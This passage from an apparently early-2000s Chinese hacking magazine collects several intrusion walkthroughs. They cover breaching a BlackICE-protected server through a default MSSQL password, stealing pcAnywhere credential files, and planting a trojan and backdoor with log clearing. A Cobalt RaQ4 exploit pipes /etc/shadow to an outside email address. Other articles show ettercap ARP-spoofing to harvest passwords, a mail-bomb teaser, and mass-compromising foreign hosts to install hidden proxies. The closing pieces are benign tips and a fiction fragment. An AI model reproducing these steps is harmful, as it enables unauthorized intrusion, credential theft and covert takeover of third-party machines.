此时千万不要点击“返回重新登录”，而要选择点浏览器上方的“后退”，重新编辑网页，然后上传，你会发现文件竟然上传上去了。需要注意的是：要利用这个 BUG，只能对已经保存在服务器上的文件进行编辑。如果通过“浏览”→“上传”传一个新的网页，或删除一个在服务器上的文件，系统同样会提示：

为保证访问速度，每日 19：00～22：05 暂停上传。

返回重新登录

这就是 Y365/8u8 网站上传 BUG，笔者才疏学浅，不知道此 BUG 会给 Y365/8u8 网站带来什么影响或被哪些人利用，这也是我写这个文章的原因，希望有高人可以来信 `cnblacksheep@21cn.com` 讨论。

### 突破防火墙 BlackICE

#### ——杀人于无形纪实

BlackICE 是一道不可缺少的防线，但并不意味着其安全就做足一百。本文通过笔者一次入侵实例，希望能提醒众多用户，真正的安全往往来自于人本身……

文／littleshrimp & kaka

#### 序

本文不是让你按照作者的方法来黑别人的机器，而是让你来了解入侵者（注意我这里用的是入侵者，而不是黑客，因为黑客在我心目中有非同一般的意义）是如何进入你的机器，而不是认为我装了防火墙就高枕无忧了，入侵者就无法进入到机器了。

写这篇文章的起因是在 QQ 上有几个好友想要访问 USA 的站点，但是以国内的速度来访问美国的站点，速度是奇慢无比，而且有些站点是限制了 IP，非要本国 IP 才可以访问，要是有美国或者加拿大的 HTTP SOCK5 代理就好了。于是在同一时间内，有几个朋友一起和我要国外的代理，虽然我有在线更新的 HTTP 代理，但是速度不够快，而且还是多个人一起使用；速度就更慢了，于是萌发了自己做一个 HTTP SOCK5 代理的想法。

说美亚／加拿大的网络安全状况比国内好，并不是传言，我使用自行配置的扫描器扫描了几个 C class，居然没有几个可以利用的机器。就找代理而言，我只是需要一台可以利用的机器作代理服务器，所以没有必要从普通用户慢慢提升自己的权限，故放弃权限比较低的机器。没有办法，于是只好开了一个 B class，让扫描器慢慢扫描。

找了一台可以利用的机器，由于管理员配置 MSSQL SA 密码为默认，所以是一台具有管理员权限的机器。打开 sqlexec，连接到目标机器，但是很慢。通过提升 Guest 为管理员组用户，然后 IPC$ 连接，接着本地映射对方 C 盘为 Z 盘。这个时候出现一点问题——居然无法找到网络路径，如图 1 所示。

图 1

`Find *.*.*.253 SA (NULL) ok!!` 怎么回事，难道禁止了？然后，我用 sqlexec 连接到对方的机器上查看了一下端口，发现 139 并没有被禁止，可能是有防火墙？先用 Nmap 扫描一下，看看这台机器是不是普通的肉鸡，但多次扫描却得到不同的结果！如图 2、图 3 所示。于是放弃如此。但尚有 1433 这个端口可以利用，还有一个远程的 shell。

```text
svchost 3488 256236 00:00:00.015 0:00:00.062 0:09:22.937
pslist 2224 133 157224 00:00:00.093 0:00:00.062 0:00:00.125
```

图 3

在对方机器上 PsList 发现有 BlackICE 防火墙，详细记录和分析见：

```text
pslist

PsList 1.22 - Process Information Lister
Copyright (C) 1999-2002 Mark Russinovich
Sysinternals - www.sysinternals.com

Process information for HORIZONS:

Name       Pid   Pri   Thd   Hnd   Mem   User Time      Kernel Time    Elapsed Time
Idle       0     2     0           16    0:00:00.000    48:14:35.640   24:19:22.921
System     8     8     47    154   276   0:00:00.000    0:01:10.390    24:19:22.921
........................................................
internat   1848  ...
blackice   2024  ...    阻挡我们前进步伐的 BlackICE 防火墙
sqlmangr   6968  ...
blackd     4568  ...
ssbezier.sc 9404 ...
cmd        1792  ...
```

既然不让从外边连接你的共享，那么我们就应该想到别的办法来把我们的后门程序上传到这台机器，让这台机器运行这个程序，以后的事情就好办了。

想法有了，但是通过什么途径来上传程序呢？从 sqlexec 这个 shell 中 `netstat -an` 可以看出这台机器开了 21、80、1433、5631 等等端口。有 PcAnywhere，我们知道这是个远程控制工具；只要下载了 `*.cif` 文件，使用 Symantec PcAnywhere Password Crack 就可以解出密码，然后就可以利用 PcAnywhere 连接过去，就是一个远程桌面了。

我考虑它开了 80 端口，所以把 `*.cif` 文件拷贝到 Web 目录下然后下载、解密，使用 PcAnywhere 连接。

但是，我们首先要获得对方机器配置 IIS 的主目录是哪个目录。通过浏览这个站点，看看能不能得到什么线索？但很可惜，没有默认主页（图 4），看来主目录已经转移了。

图 4

从图 5 可以看出默认安装 IIS 的主目录，再浏览一下是不是真的不是默认的，看看 `Help.gif` 在不在？从图 6 可以看出，这不是我们想要的答案。

对了，以前玩 Unicode 的时候，常常会用到 `tftpd32.exe` 这个程序。原理大概是这样的，在本机运行 `tftpd32.exe` 开启 tftpd 服务，远程机器可以利用 `tftp.exe` 这个系统自带的软件，连接到 tftpd 服务。

我需要把这两个文件上传到我开 tftpd 服务器的机器，然后下载到本地解密连接。因为在 sqlexec 这个 shell 下不支持长文件名，所以我就转换了一下。

- 1. `dir c:\ /x /a`  
  `/X` 显示为非 8dot3 文件名产生的短名称。格式是 `/N` 的格式，短名称插在长名称前面。如果没有短名称，在其位置则显示空白。  
  `/A` 显示具有指定属性的文件。  
  `attributes`：`D` 目录，`R` 只读文件，`H` 隐藏文件，`A` 准备存档的文件，`S` 系统文件，`-` 表示“否”的前缀。
- 2. `dir c:\DOCUME~1\`

```text
dir c:\DOCUME~1\ALLUSE~1\APPLIC~1\Symantec\pcAnywhere /x /a
```

反馈如图 8 所示，可以看出转换好了，可以上传了。

```text
tftp -i *.*.*.103
```

先找一台机器开 tftpd 服务器（当然不是在我的机器上运行 tftpd32 程序，我在内网，作 tftpd 服务的机器必须要有一个公网的 IP 的），如图 7 监听端口 69。

在 `sqlexec.exe` 这个 shell 下，上传 `*.cif` 文件和下载后门程序。

```text
dir c:\*.cif /s   找出 pcAnywhere 的口令文件
Directory of c:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere

12/27/2002 11:17a  10,504  PCA.brianc.CIF
12/27/2002 11:16a  10,504  PCA.Darync.CIF
2 File(s)          21,008 bytes
```

`put c:\DOCUME~1\ALLUSE~1\APPLIC~1\Symantec\pcAnywhere\PCA.brianc.CIF`，结果如图 9、图 10 所示。然后用 `tftp -i *.*.*.103 get serv.exe` 下载我配置好的木马（图 11），可以看出此台机器已经被攻破。

最后利用 Symantec PcAnywhere Password Crack 解出密码（图 12），再利用破解出的账号和密码连接。

接着利用 PcAnywhere 被控端登录，如图 13。

连接上去后，我们可以看到对方桌面，正在运行屏保，如图 14，剩下的事情简单了。利用 pcAnywhere 在他的机器上操作，安装好代理软件，清除了日志文件，留下了后门，同时还帮这个机器打了补丁，顺便开了他的 3389 端口，换为 1414……

### 总结

有些管理员以为装上防火墙就万事大吉了，以为入侵者不可能再入侵到自己的机器上，对防火墙抱以 100% 的信心。其实这种想法是错误的，每天都有大量的不同漏洞被发现，系统的安全也是时时刻刻被威胁着，防火墙是死的，人是活的，上边 BlackICE 被突破就是一个例子。如果管理员在配置系统的时候，修改了默认的 MySQL 密码，可能我要进去就要费很大的周折了，有了这个周折的时间，管理员可能发现系统的异常就会检查系统，从而发现漏洞并补之。

如果是经常留意漏洞公告的读者，大概还记得前段时间介绍的 Cobalt RaQ4 Remote Root Exploit 溢出漏洞吧？溢出程序和入侵方法大家一定想看看，管理员也请注意打好补丁了（本文后面会给出下载地址）。

### Cobalt Linux 的入侵

文／朱平

不知道大家是否还记得前一段时间出的 Cobalt RaQ4 Remote Root Exploit，由于考试，没时间测试，今天总算是闲下来了。

http://www.i-security.nl/files/raqrewt.c

首先看看源代码：

```c
RaQ 4 and possibly others easy remote root compromise
```

说明：该 Exploit 是针对 RaQ 4，但其他类型的也可能可以，我只知道 Sun Cobalt 公司有 Qube、RaQ 两种类型的服务器。

接着看这段：

```c
#define PORT 81 /* default cobalt admin httpd,
try 444 if 81 runs with ssl. */
```

`#define` 是 C 语言的宏定义中的符号常量定义。从源代码可知，此 Exploit 是通过 81 端口起作用的。后面是注释，告诉我们 cobalt admin httpd 默认运行端口是 81，如果 81 运行 SSL，便试试 444 端口。

我想众所周知的黑客守则：学好英文，看懂源码，在这就有体现吧。

那我们先扫扫 81 端口吧，如图 1 所示：看，我们是不是找到一台？确定一下主机类型：

```text
先看看 telnet 的 banner：

telnet ip
```

图 1

```text
Cobalt Linux release 6.0 (Carmel) /* Cobalt Qube 3 ? */
Kernel 2.2.16C7 on an i586
login:

http 的 banner 也确定一下：
http://ip:81/
```

图 2

见图 2：

这应该是代码上说的 cobalt admin httpd，那我们开始吧（如果你还不确定的话，可以再试试他的 banner）！

登上的肉鸡：

```text
telnet 161.17.***.***
Red Hat Linux release 6.2 (Zoot)
Kernel 2.2.14-5.0 on a sparc64
login: test  /* 用户 */
Password: ******  /* 密码 */
Last login: Thu Jan 23 09:59:19 from 218.5.252.108
You have new mail.
[test test]$ cd /tmp
[test tmp]$ ./.sh  /* 我的后门 */
attached
bash# wget http://www.i-security.nl/files/raqrewt.c  /* 下载源代码 */
bash# gcc -o raq raqrewt.c  /* 编译 */
bash# ./raqrewt 211.***.***.*** "cat /etc/shadow|mail jzzy99@etang.com" 81  /* 溢出 */
```

提示成功了，去我们的信箱里看看，如图 3、图 4 所示。

现在就可以拿 john 破解啦，破解得到 admin 的密码，登录后如图 5、图 6 所示。

后门？难道 shadow 不是最环保的后门吗？每次想用的时候就拿 john 出来破解，非常方便。最后，把这个漏洞的补丁的下载地址告诉大家：

http://ftp.cobalt.sun.com/pub/packages/raq4/eng/RaQ4-en-Security-2.0.1-SHP_REM.pkg

本文并没有什么特别高深的技术，只是描述了入侵的一般过程，希望大家能从中获益。

### 一个邮件炸弹的编程实现

电子邮件是 Internet 上最普遍的服务，同时也是人们交流的首选，那么如何在程序中实现呢？本文用 VB 来实现基于 ActiveX 的 SMTP 控件。

首先，介绍一下 SMTP 控件的所在特性，所有向 SMTP 服务器发送电子邮件过程中所用到的数据单元都包含在下面的控件特性中：

| 特性 | 用途描述 |
|---|---|
| Busy | 若一条命令正在处理中，返回 1 或 false |
| DocInput | 指向 DocInput 对象，此对象必须在激活 SendDoc 前设置，表达数据流传送的进度信息 |
| Errors | 对一个错误集的引用，详细描述最后一个错误情况 |
| NotificationMode | 确认如何提供数据已到达的信息 |
| ProtocolState | 标识控件的协议类型，有未建立连接、等待连接确认和已建立连接 3 种状态 |
| RemoteHost | 连接的 SMTP 服务器名或 IP 地址 |
| RemotePort | 连接的端口号（SMTP—25） |
| ReplyCode | SMTP 服务器响应请求发送的代码 |
| ReplyString | SMTP 服务器响应请求发送的字符串 |
| State | 报告连接的状态 |

下面介绍 SMTP 控件的方法：

| 方法 | 使用情况 |
|---|---|
| Cancel | 停止一个即将发送的请求 |
| SendDoc | 发送邮件的全文 |

其中，SendDoc 有 4 个可选参数：

| 参数 | 说明 |
|---|---|
| URL | 标识要传送的远程文件 |
| Headers | 使用头信息传送文件，包括源地址和目标地址 |
| InputData | 是否要设置缓冲区，该缓冲区保存待传送的文档 |
| InputFile | 指向本地要传送的文档 |

再来看看 SMTP 控件提供事件供程序响应：

| 事件 | 说明 |
|---|---|
| Busy | 当命令正在处理时触发 |
| Cancel | 当执行 Cancel 时触发 |
| DocInput | 数据在控件发出时触发 |
| Error | 出现错误时触发 |
| ProtocolStateChange | 协议状态发生改变时触发 |
| StateChanged | 状态改变时触发 |
| TimeOut | 指定事项在 TimeOut 时间内未发生时触发 |

下面建立一个小型应用程序，说明：

- formMail —— 应用程序主窗口
- cmdSendMessage —— 发送邮件按钮
- txtSMTPServer —— 接受邮件的 SMTP 服务器名的文本框
- txtFromAddress —— 发送者地址文本框
- txtToAddress —— 目的邮箱地址文本框
- txtCcAddress —— 抄送邮箱地址文本框
- txtSubject —— 邮件主题词文本框
- txtMessageBody —— 邮件正文文本框
- SMTP1 —— 基于 ActiveX 的 SMTP 控件名

具体步骤如下：

- 1. 启动 Visual Basic 6.0，建立 formMail 主窗口，Caption=Super Mail，Name=formMail，设置大小，并使它在运行过程中不能改变大小；
- 2. 加入 `cmdSendMessage` 按钮，`Caption=Send Mail`，`Name=cmdSendMessage`；
- 3. 加入文本框控件 `txtSMTPServer`、`txtFromAddress`、`txtToAddress`、`txtCcAddress`、`txtSubject`、`txtMessageBody`，并分别设置 `Text=""`；
- 4. 设置 6 个 Label 控件 Label1—Label6，分别设置 `Text=SMTP`、`From`、`To`、`CC`、`Subject`、`MessageBody`；
- 5. 在 `formMail` 主窗口下加入一个状态条控件，`Name=Status`，并设置 3 个格，保存工程；
- 6. 在控件工具条中加入 SMTP 控件，同时需增加对所支持的对象的引用；
- 7. 将 SMTP 控件拉到 `formMail` 窗口中，并将其改名为 `SMTP1`；

下面编写应用程序代码：

这就是 SMTP 控件的应用，相信聪明的读者加入几个循环语句，一个邮箱炸弹就成功了。

### IP 查询小技巧

文／图 小天狼星（啊哈工作室）

凡是熟悉网络的人，都应该清楚 IP 在网络中起的重要作用，可能许多朋友都会使用一些专门的探测 IP 地址的软件，其实有一些另类的方法也可以查到 IP 地址！比如很多朋友经常使用的收发电邮软件 Foxmail（V4.2）和天网个人防火墙（V2.4.7）。

首先，笔者来教大家如何使用 Foxmail 来查看发信人的 IP 地址。在选中信件之后，双击后使用一个新窗口打开。在“查看”菜单里选中“查看原始信息”，在“头信息”中可以看见：by xxx.xxx.xxx.xxx with SMTP，这里我用黑色方框框起的 xxx.xxx.xxx.xxx 就是我们想要知道的 IP 地址了，如图 1 所示：

图 1

另外一种方法，就是使用保护我们爱机安全的天网防火墙了。当我们的浏览器在浏览网页的时候（笔者使用的是 Sleipnir 汉化版），通常会使用 TCP 协议的 Http[80] 端口，这时，我们只要看看它（浏览器软件）在浏览什么 IP 地址就可以了。打开天网防火墙的界面，点击那个耳朵模样的图标，在下拉菜单中选择“全部协议”，就可以查看了。不过，要注意动作要快，因为浏览器软件下载完信息后会自动断开与服务器的连接，一定要看清哦！如图 2 所示。

图 2

其实，查 IP 还有许多“旁门左道”，就看你能不能发现了。

谈到 Linux 下的嗅探工具，大家一定会想到 SNIFFIT、TCPDUMP。确实，如今大多 Linux 厂家把它们纳入安装盘里，用户可以自己选择安装。其中，最容易上手的当然是 SNIFFIT，只要输入 `-i` 选项，整个网络数据流通情况都可以一览无疑，可如果你是处在交换环境下，SNIFFIT 就会失效了。TCPDUMP 功能当然很强大，灵活的定制规则、丰富的表达式奠定了它的优秀，也加大了它的操作难度，这时候，ETTERCAP 就成为我们的首选嗅探器。

ETTERCAP 是由意大利人 ALoR 和 NaGA 开发出来的，它不仅可以嗅探数据包，还可以更改其内容，也可以自己注入一些命令。

嗅探模式分别基于 IP 地址和 MAC 地址，也就是说它们必须先把网卡置于混杂，然后才可以正常工作。所以在交换环境下，这两项会完全失效；`-a` 选项是基于 ARP 欺骗的，是一种中间人攻击模型。实质是利用了 ARP 协议的漏洞，攻击者分别欺骗了 A 和 B 机，让 A 机把数据传给嗅探者，然后再由嗅探机器把数据转发给 B 机，A 和 B 却没有意识到数据包的中转过程，这样我们就可以劫获数据甚至修改数据包。

#### 一、安装

你可以在网上很多地方下载到它的最新版本，下载完后，先解压缩：

```bash
[root@CIEL root]# tar zxpvf ettercap-0.6.tar.gz
[root@CIEL root]# cd ettercap-0.6
[root@CIEL ettercap-0.6]# ./configure && make && make install
[root@CIEL ettercap-0.6]# make plug-ins
[root@CIEL ettercap-0.6]# make plug-ins install
```

安装完成后，输入 `ettercap --help` 就可以看见帮助文档，基本用法是：

```bash
ettercap [option] [host:port] [host:port] [mac] [mac]
```

#### 二、功能介绍

嗅探：它有 5 种工作模式。

```text
-a  --arpsniff  基于 arp 的欺骗，分 3 小种：arpbased、smartarp 和 publicarp
-s  --sniff     属于 IPBASED，目标可以是任何主机
-m  --macsniff  属于 MACBASED
```

需要说明的是，`-s`、`-m` 两选项带来的是传统嗅探模式，下面分别介绍 5 种用法：

- 1. **ettercap -Nza ip1 ip2 mac1 mac2（arpbased）**  
  劫获 IP1 与 IP2 间的数据，缺省状态下只接收 TCP 数据包。
- 2. **ettercap -Na ip mac（smartarp）**  
  劫获此 IP 与外部所有通信数据，这种方式比较剧烈，启动时采用的是 ARP 风暴，很容易被发现。如果别人在用 TCPDUMP 监听，就会看见攻击者发出的无数的 ARP 请求，再傻的管理员都明白什么事情发生了。不过，由于修改了指定主机的 ARP 表中关于被监听主机的 MAC 地址，还修改了被监听主机中那些指定主机的 MAC 地址，处在完全的中间人工作状态，这时候你可以做的事情多些，比如更改数据包，截取 SSH 口令。
- 3. **ettercap -Nza ip mac（publicarp）**  
  同上，不同点在于发送 ARP 请求的方式，上面采用的是 ARP 广播，这里只是对特定主机发送 ARP 请求，这样不易引起管理员的怀疑。不过也带来了问题，被监听者自己也会收到这个以广播方式发送的 ARP 响应包，于是便会弹出“检测到 IP 地址与硬件地址冲突”之类的警告，不过不会影响目标主机正常通信。还有一点就是发往被监听主机的数据包会送给监听者，而监听者发出的数据包却被直接送往真正的目的主机，没有经过监听者的主机，所以我们只能截取不完全的通信内容。
- 4. **ettercap -Nzs IP:80（ipbased sniffing）**  
  基于 IP 地址的嗅探。这里只劫获目标机器 HTTP 消息，你也可以指定其他端口，比如 23。如果没有指定，所有都会被截取。
- 5. **ettercap -zm mac1 mac2（macbased）**  
  基于 MAC 的嗅探，只需输入 MAC 地址。需要说明的是，4 和 5 两种方式只适合于共享网络，在交换网络下一概无效。MAC 地址的获取很简单，直接在终端输入 `ettercap -l` 就会列出所有在线主机。或者你先 PING 一下某个 IP，不管有没有回应（没有回应可能是对方开了防火墙），再用 ARP 命令就可以获取其 MAC 地址。如果无法获取，则此 IP 不存在，这也是探测防火墙后的主机是否在线的一个好方法。

包过滤：由于网络流量实在很大，当你面对大量记录数据时，你可能会感到手足无措，你想找到自己需要的数据无疑是一项艰巨的工作。这时候，我们可以通过 `-F` 选项加载自己的过滤规则，这样很多无用的数据就会被忽略、删节。和正则字符一样，我们进行包过滤时有必要的话也要注意到正确的 TCP 序列号和确认序列号等因素。一旦你加载了自己的过滤链，你就可以有目的地得到自己最需要的数据了。一条过滤规则看起来就像汇编程序一样，当然，还是有差距的，用列表形容可能更确切些。一条过滤规则大概如下：协议、源端口、目标端口、承载数据。

一个空的搜索字符串总可以成立，比如端口如果没有指定，所有的都会被记录下来。只要那些规则匹配，你的过滤链就可以工作了。例如有如下数据流：

```text
packet 1: "var1=123&var2=400"
packet 2: "var1=124&var2=420"
packet 3: "var1=125&var2=460"
packet 4: "var1=126&var2=540"
packet 5: "var1=127&var2=700"
......
......
```

我们可以写如下规则：

```text
Search: "var1=[3*]"
Replace: "var1=000"
```

被过滤后的流就会如下：

```text
packet 1: "var1=000&var2=400"
packet 2: "var1=000&var2=420"
packet 3: "var1=000&var2=460"
packet 4: "var1=000&var2=540"
packet 5: "var1=000&var2=700"
```

如果“var1”后面没有被指定，默认则“var1=000”。

最后是关于 SSH 的嗅探：由于传输数据被加密，我们必须自己掌握密钥，具体实现方法如下：我们先截取服务器的公钥，保存在一边。自己再生成另一公钥，用来加密本机与客户机通信数据，收到客户机数据后，自然可以解密，再用服务器公钥加密，发送给服务器，如此一来，可以偷梁换柱。

#### 三、工作参数

下面列出它的主要选项，虽然它本身有 28 个，不过限于篇幅，下面只列出一些常用的：

- `-N  --simple` 非交互方式，很常用的
- `-z  --silent` 静默模式（启动时不是发送 ARP 风暴）
- `-O  --passive` 被动模式嗅探
- `-b  --broadping` 广播 PING，替代了 ARPPING
- `-S  --spoof <ip1>` 用 IP1 这地址发送 ARP 请求获取其他机器信息
- `-H  --hosts <ip1[ip2][...]>` 嗅探的目标主机的 IP，可以是很多台
- `-n  --netmask <netmask>` 扫描由输入子网掩码确定的子网

- `-v --version` 检查最新版本
- `-h --help` 帮助文档

组合选项（一般和 `-N` 绑定一起执行）

- `-u --udp` 嗅探 UDP 数据，缺省是 TCP
- `-p --plugin <name>` 运行指定名字的插件
- `-l --list` 列出所有在线主机 IP 和 MAC，实质就是发送 255 个 ARP 请求，等待回音，如果你的子网掩码是 255.255.0.0，就会发送 255×255 个请求，就是 ARP 风暴吧！
- `-C --collect` 仅搜集用户名和对应密码，Eg：`ettercap -NCzs IP:port`。它规则不是很严格，所以你 IP 或 PORT 不填也没有关系
- `-c --check` 检索网络里有无其他机器正在嗅探
- `-x --hexview` 用 16 进制表达数据。这样，如果你想自己创建一个包的话会比较方便。比如，建个文件写上 `"\x01\x02\x00\x00\xFF\xFF\x00\x02here the pass"`。注意：ettercap 不仅可以嗅探包，也可以创建包。所以，你可以更改穿过你机器的任何一段数据
- `-L --logtofile` 记录所有数据到指定位置
- `-k --newcert` 创建一个新的 CERT 文件，用以进行 HTTPS 攻击
- `-F --filter` 从指定文件中加载过滤规则
- `-f --fingerprint <host>` 指定主机的 OS 判别，采用的是 nmap 的数据库，所以准确性得到保障，不过也有无法辨别的时候
- `-l --linktype` 判断自己处在什么样的网络环境中，交换或是 HUB

#### 四、实战

210.197.248.192 是确定在线的主机，先判断它的操作系统：

```text
[root@CIEL root]# ettercap -Nf *.*.248.192
ettercap 0.6.0 (c) 2001 ALOR & NaGA
Your IP: *.*.248.226 with MAC: 00:00:E8:7B:CA:4E
on Iface: eth0
Fingerprinting *.*.248.192...
Operating System:
Windows NT 5 Beta2 or Beta3
Windows Me or Windows 2000 RC1 through final release
MS Windows 2000 Professional RC1/W2K Advance
Server Beta3
Windows Millenium Edition v4.90.3000
```

现在小试牛刀，看看对方正在做什么：

```text
[root@CIEL root]# ettercap -Nza *.*.248.192 *.*.248.254 MAC1 MAC2
```

这里 *.*.248.254 是网关。这样，我们就是中间人了，它与外网所有数据都会在我们这里流过。不过被嗅探机器的内网数据交换我们将看不到。下面是截取到的两段典型的 HTTP 交互数据，从第一段可以看出客户正在看的网页、脚本、浏览器语言以及客户的操作系统等信息。从第二段可以看出主机的 banner 等等，都是网站的基本资料。

```http
GET /pcedu/script/title_edu.js HTTP/1.1
Accept: */*
Referer: http://wwwb.pconline.com.cn/pcedu/soft/doc/nt/10308.htm
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
If-Modified-Since: Mon, 09 Sep 2002 09:18:53 GMT
If-None-Match: "6f67c-2d5-3d7c677d"
User-Agent: Mozilla/4.0 (compatible; MSIE 5.0; Windows 98; DigExt)
Host: wwwb.pconline.com.cn
Connection: Keep-Alive

HTTP/1.1 200 OK
Date: Sat, 01 Mar 2003 08:25:37 GMT
Server: Apache/1.3.20 (Unix) PHP/4.1.2 mod_ssl/2.8.4 OpenSSL/0.9.6a
X-Powered-By: PHP/4.1.2
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/html
```

当然，它还可以记下很多网页内容，全是 HTML 源代码，你可以抓下来，用 HTM 后缀保存，再用浏览器打开，好了，你看到的是什么，别人看到的就是什么。不过，它对中文支持不好，所以别人看见的中文你将无法看到。另一个程序 LCX0.EXE 就很不错，在中文终端里，可以把所有中文网页完整抓下来。

一般黑客最感兴趣的无非是密码了，比如下面的组合，h 是帮助，它会提供帮助信息：

```text
[root@CIEL root]# ettercap -NCzs
ettercap 0.6.0 (c) 2001 ALoR & NaGA
Your IP: *.*.248.226 with MAC: 00:00:E8:7B:CA:4E
on Iface: eth0
Resolving 1 hostnames...
Press 'h' for help...
Sniffing (IP based): ANY.0 <--> ANY.0
TCP packets only ...(default)
Collecting passwords...
[qQ] - quit
[lL] - log all traffic to file(s)
space - stop/cont sniffing

15:52:51 *.*.248.21:1027 <--> 61.114.4.41:23 telnet
USER: root
PASS: root

15:54:53 *.*.248.46:1041 <--> 61.135.132.99:80 http
USER: dalin
PASS: 7895865
http://www.sohu.com/

16:13:14 *.*.248.192:2278 <--> *.*.249.172.21 ftp
USER: Cshl
PASS: 123456
```

如果你输入 `lL`，系统在 `/ROOT` 下会自动生成“20030301-Collected-passwords.log”，里面会记录下所有能嗅探到的密码，看来 Telnet、HTTP、FTP 密码都不能逃过。这些记录简洁明了，在机器上挂一天，不知道可以记录多少了：）

#### 五、后语

总而言之，ETTERCAP 实在是一款很不错的工具，但是有些地方得注意。由于攻击者在嗅探过程中担负了数据转发工作，如果配置比较低或者担负很多机器数据的转发工作的话，常容易丢失些数据包。如果攻击者处在 A 与 B 机中间，当攻击停止时，A 和 B 机得重新建立会话，中间会有一定延时，别人可能会注意到这点。然后最重要的就是关于 ARP 风暴了，如果你自己机器子网掩码是 255.0.0.0，它会发送 255×255×255 个 ARP 请求，即使短时间发送 255 个 ARP 请求，也会有不小的记录，一些检测软件很容易发觉。

### 巧妙恢复备份文件

文／李胜军

在 Windows 系统中，我们往往需要把一些重要文件复制到非系统分区或软盘中备份，例如：造字程序的 educ.tte 或各种输入法的词库文件等。这个操作说来简单，不过要恢复可没那么容易，在你想按原路径覆盖原文件进行恢复时，系统往往会告诉你该文件正在使用中不能修改。其实利用 Windows 的系统文件检查器，我们就可以解决这个问题。经实践，系统文件检查器不仅可以恢复系统文件，还可以用来复制任何类型的文件，覆盖正在使用中的文件，当然操作相对要麻烦些。

单击“开始→运行…”，在运行对话框中输入 `sfc` 回车，直接运行系统文件检查器。点击选中“从安装软盘提取一个文件”，单击“浏览”打开要覆盖的原文件（`C:\Windows\educ.tte`），单击“开始”进入提取文件对话框，单击“还原自”后的“浏览”打开备份的文件所在文件夹（`D:\备份\`），单击“确定”按要求重启系统。瞧，我们已经轻松恢复了备份的文件。

此外，有一些文件在你要删除时，系统也会告诉你该文件正在使用中不能删除，一些黑客软件或某些垃圾程序等等。这种文件我们也可以利用系统文件检查器进行删除。假设要删除 `C:\a.exe`，只要打开记事本，建一个空文件，命名为 `a.exe`，保存在桌面。然后，按上面的操作，用新建的空文件 `a.exe` 覆盖要删除的文件，重新启动后再试着删除 `C:\a.exe`，这回可以删除了吧。最后别忘了把你刚才建在桌面的空文件 `a.exe` 也一起删除。

注：以上是在 Windows 98 中的操作，如果是在 Windows XP 中则要在运行中输入 `msconfig`，从系统配置实用程序的“一般”选项卡中点击“展开文件”按钮进入文件提取窗口。

代理服务器向来是我们感兴趣的话题，关于如何制作代理的问题也一直困惑着很多读者，那么如何用简单的方法制作代理是不是一种奢想呢？看完下文作者介绍的如何使用 Ssso 批量制作代理服务器，相信你一定会有所收获。

## 用 Ssso 批量制作代理服务器

文／Smile0 V


Ssso 代理远程安装工具包是 Stunnel + Sock5 + SocksCap + OpenSSL 的缩写，是突破网络封锁的有力工具，它工作的原理是让国内上网的电脑通过一条高强度加密的（SSL）的数据通道访问被屏蔽的海外网站（图1）。

Ssso 代理服务器的特点：安全——采用无法破译的 SSL 方式加密，而且证书可以自己随时更换；多用——可以用来上网浏览，在 QQ、ICQ、Msn、Ftp、Smtp 等程序中使用；隐秘——远端解析域名，安全证书自定；保护上网者隐私。

这次我们使用的是 Ssso 代理远程安装工具包 V5.1 大众版，下载地址 http://jj.xnn.cc。安装后将在开始菜单创建一个程序组。下面就进入正题，开始制作我们的代理服务器吧！

首先，我们要创建自己的 SSL 证书，点击“开始→程序→Ssso Tool→创建证书”（一旦运行请不要中途终止，否则不但不能创建证书，连原来的证书也会失效）。程序将会问你以下问题：

- Country Name：（回答你的国家名称，必须是两个字母；如美国是 US，中国是 CN）
- State or Province Name：（回答所在的州或省的名称）
- Locality Name：（回答所在城市的名称）
- Organization Name：（回答所在机构、组织的名称）
- Organizational Unit Name：（回答所在的部门名称）
- Common Name：（回答服务器上网站的名称，如 www.abc.com）
- Email Address：（回答你的 E-mail 地址）


接下来证书会自动生成，并自动添加进 Ssso 工具包安装目录下的服务器端隐藏安装程序（`s.exe`）中。点击程序菜单中的“查看证书”，可以查看证书的信息。

此版内置了一个动态主机 IP 通知程序，服务器每次上线都会在你的 E-mail 信箱发送一封带有服务器当前 IP 地址的信件（你要首先设置接收信箱：在开始菜单运行“信箱设置”，按提示完成）。

在远程服务器安装 Ssso 代理，简单说就是首先搜索海外有 IPC 漏洞的服务器，然后把服务器端隐藏版程序 `s.exe`（实际上是改了图标的 bouncer.exe，较国内的 snake 代理更为稳定快速，默认安装端口为 443）上传到远端服务器的 `system32` 目录下运行。下面是使用 Ssso 工具包自带的 Ssso 伴侣在远端服务器安装的全过程：

- 1. 使用 Ssso 自带的“IPC 扫描器”对海外主机进行扫描，在“开始”和“结束”栏填写要扫描的海外 IP 段，点击“扫描”，不一会儿就会扫出大量有 IPC 漏洞的海外主机，保存有效结果备用（图2）。


图2

- 2. 打开“Ssso 代理安装助手”，将搜索到的海外服务器 IP 填写到“基本设置——对方主机 IP”中（建议在开始前首先检查一下对方的 443 端口是否被占用），填写用户和密码，点击“IPC 连接”按钮（图3）。


图3

- 3. 连接成功后，点击“上传文件——开始上传”，上传所需时间由你的速度决定。

- 4. 上传 `s.exe` 成功后，点击“设定计划——查看远程主机时间”，有时会得到两个时间，我们只用远程主机的本地时间，将这个时间再滞后几分钟（如得到远程主机的本地时间是下午 02:00，则填写 14:02，就是说要使用 24 小时制填写到“计划在远程主机运行程序的时间”栏中），然后点击“下达远程命令计划”按钮。没有意外的话，时间一到，远程的服务器就会运行此命令安装 Ssso 代理。点击“查看远程计划任务清单（清单为空则表示已经运行）”按钮，可以查看下达的任务是否执行（实际上不过是图形化了的 AT 命令）。

- 5. 如果任务已经执行，我们就要对这个 Ssso 代理进行验证了，点击“验证 Ssso”，填写验证的端口，点击“验证 Ssso 代理”。成功的话，一个 Ssso 超级代理就做好了。

- 6. 点击“善后处理”，填写连接的 IP，清除远程主机日志和断开该 IP 的连接（考虑得很周到吧 ^_^）。

- 7. 在结果调度中您可以测试代理的状态，删除失效的代理，选用速度较好的代理来使用（图4）。


图4

这样，不需要太长时间我们就可以制造出大量的 Ssso 代理来。当你已经丰衣足食的时候，别忘了帮助一下还在四处寻找代理的朋友们哦。

### 网络邂逅

文／冰零尘埃


一个人，对着电脑发呆，大脑中一片混乱，惟一清晰的只有绒绒。那边已经掉线很久了，却怎么迟迟浮不上来，我仍奢望人的生命可以 Restart。可她如一片秋天的落叶，消失在我的生命中。

